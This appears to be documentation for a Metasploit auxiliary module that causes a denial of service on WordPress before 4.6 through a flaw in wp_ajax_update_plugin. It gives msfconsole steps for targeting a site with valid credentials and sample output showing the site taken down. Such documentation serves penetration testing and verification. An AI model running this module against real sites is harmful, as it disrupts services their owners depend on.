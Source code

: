 This module exploits a Cross-site request forgery (CSRF) vulnerability in the wp_ajax_update_plugin function in wp-admin/includes/ajax-actions.php in Wordpress before 4.6. Allows remote authenticated users to cause a denial of service (with /dev/random read operations).
## Verification

1. Start msfconsole
2. Do: ```use auxiliary/dos/http/wordpress_directory_traversal_dos.rb```
3. Do: ```set RHOST <ip target site>```
4. Do: ```set TARGETURI <WordPress path>```
5. Do: ```set USERNAME <Valid Username>```
6. Do: ```set PASSWORD <Valid Password>```
7. Do: ```exploit```
8. WordPress website should be down

## Scenarios

```
msf auxiliary(wordpress_directory_traversal_dos) > exploit

[*] Checking if user "test" exists...
[+] Username "test" is valid
[*] Executing requests 1 - 5...
[+] Finished executing requests 1 - 5
[*] Executing requests 6 - 10...
[+] Finished executing requests 6 - 10
...
[*] Executing requests 191 - 195...
[+] Finished executing requests 191 - 195
[*] Executing requests 196 - 200...
[+] Finished executing requests 196 - 200
[+] SUCCESS: /wordpress appears to be down
[*] Auxiliary module execution completed
```
